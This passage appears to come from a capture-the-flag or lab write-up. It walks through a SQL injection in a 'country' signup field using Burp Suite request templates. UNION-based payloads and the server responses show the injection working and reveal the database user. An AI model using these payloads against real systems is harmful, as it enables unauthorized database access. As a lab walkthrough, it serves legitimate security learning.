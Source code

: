 ```username=foo&country=' or 1=1 --```
To do so, we will use burpsuite. We will need to have two templates in the repeater, the first one, to create a new account:
```http
POST / HTTP/1.1
Host: 10.10.11.116
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.116
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.11.116/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=b&country=Angola
```
And the second one, to see the results:
```http
GET /account.php HTTP/1.1
Host: 10.10.11.116
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.11.116/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: user=0cc175b9c0f1b6a831c399e269772661
Connection: close
```
Now, injecting into the first template `country=' or 1=1 --'` we obtain:
```html
<h1 class="text-white">Welcome b</h1><h3 class="text-white">Other Players In ' or 1=1 --</h3><br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
Stack trace:
#0 {main} thrown in <b>/var/www/html/account.php</b> on line <b>33</b>
```
Meaning the injection worked, but we need another payload. If we try to inject `country=' UNION select "test" ;-- -` we obtain:
```html
<h1 class="text-white">Welcome b</h1>
<h3 class="text-white">Other Players In ' UNION select "test" ;-- -</h3>
<li class='text-white'>test</li>
```
The injection was successful, so to inject sql we need to end the payload with `;-- -`. Since we can inject sql code, we can show all the tables hold in the database:
```http
username=b&country=' UNION show tables;-- -
```
Which ended up in error, meaning we can only obtain the union between selects. If we try to get the user of the database with `country=' UNION select user();-- -` we obtain:
```html
<h1 class="text-white">Welcome b</h1>
<h3 class="text-white">Other Players In ' UNION select user() ;-- -</h3>
<li class='text-white'>uhc@localhost</li>
```